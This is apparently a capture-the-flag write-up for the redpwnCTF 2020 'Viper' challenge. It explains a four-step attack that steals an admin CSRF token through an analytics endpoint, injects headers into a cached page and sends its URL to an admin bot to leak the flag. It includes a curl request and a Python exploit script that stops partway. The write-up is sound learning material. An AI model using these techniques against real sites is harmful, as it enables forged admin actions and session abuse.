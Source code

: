Altogether, the attack plan is this:

1. Grab the CSRF token through ``/analytics``.
2. Create our viper page, but inject our own headers into it so that it will lead to the ``admin/create`` endpoint that will give us the flag. 
3. Cache our viper page with the injected headers, and then send the URL of our page to the admin.
4. When the admin visits our page, the cached request that we injected with our headers will fire, and will change the name of the viper to that of the flag. 

### Step 1: Grab the CSRF token.

As mentioned before, we can use the ``/analytics`` endpoint to grab the CSRF token utilizing ``'__csrftoken__admin_account'`` as our ``ip_address`` value - using it as the key, we should recieve the token as return value.

```
curl http://2020.redpwnc.tf:31291/analytics?ip_address=__csrftoken__admin_account
```

{{< image src="/images/REDPWN2020_ViperCSRF.png" alt="Login" position="center" style="border-radius: 8px;" >}}

We will use these commands in a script later to grab the CSRF token. 

### Step 2: Create a user and our own viper page, and then inject custom headers into it.
After we create the page, we need to take note of the sessionid, cookies, and viperID for the URL that we send to the admin. When we inject the header, the request URL should be a GET request to ``admin/create``.

### Step 3: Cache the viper page we created.
Simply make a GET request for our page so it will be put into the redis cache. Note that the server will only accept requests encoded in base64, so we must make sure our payload is properly encoded before doing so.


### Step 4: Send our viper URL to the admin!
Sending the page URL to the admin will hopefully activate the cache to retrieve the instance of our page with the injected payload into it. When they visit, the payload header will fire a request to the ``/admin/create`` endpoint and validate the requester as admin through our use of CSRF token-stealing - thereby allowing the server to rewrite our viper name to that of whatever is in the ``flag.txt`` file in their server. Once we access our page once more, the name should change to the flag! 


Here is my script for this challenge: 

```py
#!/usr/bin/env python3
import requests, socket, re
from urllib.parse import quote
from base64 import b64encode

address = "http://2020.redpwnc.tf:31291"

ADMIN_VIPER = "CAFECAFE-CAFE-4CAF-8CAF-CAFECAFECAFE"


viper = requests.get(address+'/create', allow_redirects=False)
# Get the viper's name/viper's id, which is UUID format
viper_id = re.findall("([a-fA-F0-9]{8}-[a-fA-F0-9]{4}-[a-fA-F0-9]{4}-[a-fA-F0-9]{4}-[a-fA-F0-9]{12})", viper.text)[0]
session_id = viper.cookies["connect.sid"]
cookies = {"connect.sid" : session_id}



viper = requests.get(address+"/analytics?ip_address=__csrftoken__admin_account")
```